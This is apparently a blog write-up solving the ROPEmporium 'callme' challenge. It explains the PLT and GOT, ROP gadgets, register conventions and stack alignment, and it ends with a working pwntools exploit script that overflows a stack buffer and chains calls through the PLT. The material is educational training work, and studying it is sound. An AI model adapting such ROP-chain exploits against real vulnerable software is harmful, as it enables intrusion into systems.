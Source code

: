 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "list"
title: "ROPEmporium: callme"
excerpt: "'callme' focuses on leveraging the PLT in order to call functions whose addresses is not resolved until runtime."
---
```

## Preface
'callme' focuses on leveraging the PLT in order to call functions whose addresses is not resolved until runtime.

Challenges can be found [here](https://ropemporium.com/).
### File Information
Running the file, we are met with the following:

![Initial Run]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/initialrun.png)

Note that the buffer overflow still exists (offset is the same), allowing us to overwrite the return address. However, this time around our objective is the following:

>You must call the **callme_one()**, **callme_two()** and **callme_three()** functions in that order, each with the arguments **0xdeadbeef**, **0xcafebabe**, **0xd00df00d** e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

However, these functions are not in our binary. 

Instead, they are dynamically linked at runtime, so we need a way to consistently call them. We are given a `libcallme.so` file where these functions are stored.

Our checksec remains the same.

![Checksec]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/checksec.png)
### Decompilation
Our useful function is a bit different this time. Instead of making a call to `system()`, it instead calls our three functions with random paramters. However, we can leverage this by setting up the registers with the desired values and calling these functions ourself. 
```c
void usefulFunction(void)
{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
  exit(1);
}
```
First though, we need to figure out the addresses of these functions.

### Understanding the PLT and GOT
Notice that when we click on any of the three functions, Ghidra brings us to a "thunk" function:

![Thunked Function]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/thunk.png)

Similarly, GDB shows us that the function calls are to a place called `function@plt`. So, what exactly is this?

![PLT Call]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/pltcall.png)

The PLT (Procedure Linking Table) is primarily used by the program to call functions that are **dynamically linked** and thus unknown until runtime. Instead of making calls directly to the function, the program will call the PLT in order to ensure that the addresses are correct.

The PLT is responsible for resolving the address if it has not yet been called before. To do so, it calls [`ld.so`](https://man7.org/linux/man-pages/man8/ld.so.8.html), which returns the function address. This address is then patched in the GOT so that future calls will directly go to the function.

The GOT (Global Offset Table) itself is a table of addresses that is usually built during runtime and contains the actual addresses of functions, even after address space randomization.

For our purposes, we should know that <u>calling the PLT is essentially the same as calling the function itself</u>, since it will fetch the runtime address and call it for us.

For more information about this, see:
- [GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
- [StackExchange PLT and GOT](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got)
- [In-Depth PLT and GOT explanation](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html)
- [GOT and PLT exploitaton](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)
- [ROPEmporium explanation](https://ropemporium.com/guide.html#Appendix%20A)

### Finding Addresses and Gadgets
To find the PLT addresses for our three functions, we can look at the disassembly in GDB. The addresses labelled are the ones that we want to call, because they are basically the equivalent of calling the function itself.

![PLT Call]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/pltcall.png)

We also need a gadget to populate our registers for us. Since each function needs three arguments, we need gadgets that can populate the first three registers in x64 calling convention:

`RDI, RSI, RDX, RCX, R8 and R9`

So let's try searching for gadgets that can populate RDI, RSI, and RDX. Luckily the challenge made it easy for us, and we find a gadget that does all three.

![Useful Gadget]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/gadget.png)

With this, we can build our ROP chain!
### Building ROP Chain
A quick recap:
We need to populate our three registers by calling our gadget and feeding it the desired arguments. Then, we can call the PLT address of our function.

We need to repeat this process a total of three times for each function.

This begs the question: *why can't you just set the registers once instead of repeating it three times for each function?*

The primary reason for this is due to architecture **callee vs caller** register designations.

In short, callee registers are expected to be preserved by the function, meaning it will retain the same value after the function call. Caller registers may be changed, meaning it is the caller's responsibility to save them before calling. There is no guarantee that these registers won't be clobbered.

In the below diagram, callee and caller registers are labelled:

![Callee vs Caller]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/registers.png)

Notice that RDI, RSI, and RDX are all caller saved. This means we need to set them again everytime we call a function.
### Fixing Alignment
Even though our script seems to be correct, we still aren't getting the flag. We aren't hitting the checks for our function calls either.

Let's do a little debugging. We can attach a GDB window using the `gdb.attach()` command in pwntools.

![MOVAPS Segfault]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/gdb.png)

Doing this shows us that we are indeed segfaulting on a MOVAPS instruction. This means our stack alignment is off, so all we need to do is add a `ret` instruction before our chain.

With that change, the script works as expected and we get the flag!

![Win]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/win.png)
### Final Script
```python
from pwn import *

p = process('./callme') # gdb.attach(p)
# Gadgets
FUNC_1_PLT = 0x400720
FUNC_2_PLT = 0x400740
FUNC_3_PLT = 0x4006f0
POP_RDI_RSI_RDX = 0x000000000040093c
RET = 0x00000000004006be
# Payload
payload = b'A'*40
payload += p64(RET)
payload += p64(POP_RDI_RSI_RDX)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(FUNC_1_PLT)
payload += p64(POP_RDI_RSI_RDX)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(FUNC_2_PLT)
payload += p64(POP_RDI_RSI_RDX)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(FUNC_3_PLT)

p.sendline(payload)
p.interactive()
```